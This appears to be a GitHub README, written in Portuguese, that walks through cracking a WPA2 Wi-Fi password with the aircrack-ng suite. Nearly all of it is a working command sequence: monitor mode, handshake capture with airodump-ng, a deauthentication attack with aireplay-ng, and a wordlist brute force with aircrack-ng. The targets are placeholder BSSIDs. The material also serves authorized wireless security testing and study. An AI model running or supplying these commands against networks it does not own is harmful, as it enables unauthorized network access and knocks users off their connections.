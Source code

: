 # Wifi-WPA2-Attack--aircrack-ng
![image](https://github.com/user-attachments/assets/0ce8e3d4-c42c-4ca3-8845-268b0c89843f)
![image](https://github.com/user-attachments/assets/a08cb55d-3a44-416b-8fd2-9d746264a2c9)

## 1. Capturar o Handshake
```bash
ifconfig wlan0 down
airmon-ng check kill
airmon-ng start wlan0
airodump-ng --essid-regex "Red*" -a wlan0mon
airodump-ng wlan0mon
mkdir wpa
cd wpa
airodump-ng --bssid BSSIDTARGET -c 11 -w cvr wlan0mon
```
## 2. Desautenticar para forçar o handshake
```bash
aireplay-ng -0 1 -a TARGETBSSID wlan0mon
# -0 = tipo do ataque (deauth)
# 1 = número de pacotes de desautenticação
# -a 00:17:9A:35:53:22 = Access Point (BSSID)
```

## 3. Brute force
```bash
aircrack-ng -b TARGETBSSID -w /usr/share/wordlists/dirb/big.txt cvr-01.cap
```
